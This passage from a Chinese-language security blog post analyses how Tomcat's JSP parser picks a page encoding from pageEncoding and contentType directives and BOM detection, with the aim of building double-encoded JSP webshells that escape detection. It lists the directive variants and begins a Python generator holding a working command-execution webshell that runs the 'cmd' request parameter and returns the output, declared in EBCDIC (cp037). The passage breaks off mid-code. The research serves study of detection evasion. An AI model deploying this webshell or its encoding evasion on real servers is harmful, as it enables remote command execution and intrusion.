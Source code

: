 课代表直接总结了，简单来说最终其实就是根据文本内容中的pageEncoding的值来决定最终编码，这里有两种写法

第一种

```java
<%@ page language="java" pageEncoding="utf-16be"%>
或
<%@ page contentType="charset=utf-16be" %>
或
<%@ tag language="java" pageEncoding="utf-16be"%>
或
<%@ tag contentType="charset=utf-16be" %>
```

第二种

```java
<jsp:directive.page pageEncoding="utf-16be"/>
或
<jsp:directive.page contentType="charset=utf-16be"/>
或
<jsp:directive.tag pageEncoding="utf-16be"/>
或
<jsp:directive.tag contentType="charset=utf-16be"/>
```

同时如果使用的`page`后面可以不需要空格,也就是形如`<%@ pagepageEncoding="utf-16be" %>`或`<jsp:directive.pagepageEncoding="utf-16be"/>`具体可以看看代码的解析这部分不重要

因此看到这里你就知道为什么开头提到的phithon提供的demo能够成功解析的原因了![img](https://y4tacker.github.io/2022/11/27/year/2022/11/%E6%B5%85%E8%B0%88JspWebshell%E4%B9%8B%E7%BC%96%E7%A0%81/0.png)

第二种

![img](https://y4tacker.github.io/2022/11/27/year/2022/11/%E6%B5%85%E8%B0%88JspWebshell%E4%B9%8B%E7%BC%96%E7%A0%81/5.png)

第三种

![img](https://y4tacker.github.io/2022/11/27/year/2022/11/%E6%B5%85%E8%B0%88JspWebshell%E4%B9%8B%E7%BC%96%E7%A0%81/9.png)

##### 为什么上面这个有一定局限性

实际上如果你认真看了上面的代码你会发现决定具体代码逻辑是否能走到这一步和`isBomPresent`的值密不可分，我们也说到了只有文件前四个字节无法与`org.apache.jasper.xmlparser.XMLEncodingDetector#getEncodingName`这个方法中某个编码匹配，之后假定XML文挡采用UTF-8编码，最终才能保证`isBomPresent`为false，因此这种利用的局限性在于文件头只能是utf8格式才能保证代码逻辑的正确执行

##### 更灵活的双编码jspwebshell

根据我们前面的分析，下面这种方式实现双编码会更灵活，可以更多样地选择双编码间的组合

这里简单写个python生成一个即可作为演示

```java
a0 = '''<?xml version="1.0" encoding='cp037'?>'''
a1 = '''
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
String line = "";
while ((line = input.readLine()) != null) {
  out.write(line+"\\n");
}
</jsp:scriptlet>
    <jsp:text>
```